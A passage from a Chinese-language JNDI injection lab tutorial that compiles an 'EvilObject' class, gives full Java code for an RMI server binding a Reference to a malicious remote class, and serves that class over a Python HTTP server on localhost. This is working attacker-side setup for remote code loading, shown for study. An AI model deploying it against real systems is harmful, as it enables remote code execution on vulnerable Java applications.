 ```cmd
"C:\Program Files\Java\jdk1.8.0_73\bin\javac.exe" EvilObject.java
```

### server.RMIService.java

实现 RMI 服务端，将恶意对象引用绑定到 RMI 注册表中。

```java
package server;

import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class RMIService {
    public static void main(String[] args) throws Exception {
        // 启动 RMI 注册表
        Registry registry = LocateRegistry.createRegistry(1099);

        // 创建 Reference 对象，指向恶意类文件的位置
        Reference refObj = new Reference("malicious.EvilObject", "malicious.EvilObject", "http://127.0.0.1:8080/");
        ReferenceWrapper refObjWrapper = new ReferenceWrapper(refObj);

        // 绑定 ReferenceWrapper 到注册表
        System.out.println("Binding 'refObjWrapper' to 'rmi://127.0.0.1:1099/refObj'");
        registry.bind("refObj", refObjWrapper);
    }
}
```

在`JNDI-Injection-Lab`下使用以下命令编译RMIService.java

```cmd
"C:\Program Files\Java\jdk1.8.0_73\bin\javac.exe" -cp .;"C:\Program Files\Java\jdk1.8.0_73\lib\tools.jar" server/RMIService.java
```

**`-cp` 或 `-classpath`**

`-cp` 参数用于指定编译时的类路径（`classpath`）。它告诉 `javac` 去哪里查找所需的类或库。

- **`.`**：表示当前目录。让编译器从当前目录中查找类或包。
- **`C:\\xxxx\tools.jar`**：表示额外的依赖库路径。这里假设 `RMIService.java` 依赖 `tools.jar` 中的类。

### 运行

**启动 HTTP 服务**

使用python在 `malicious/` 目录下启动 HTTP 服务，让EvilObject.class通过HTTP暴露出去，可以使用以下命令来启动一个临时的HTTP服务：

```java
cd malicious/
python -m http.server 8080
```
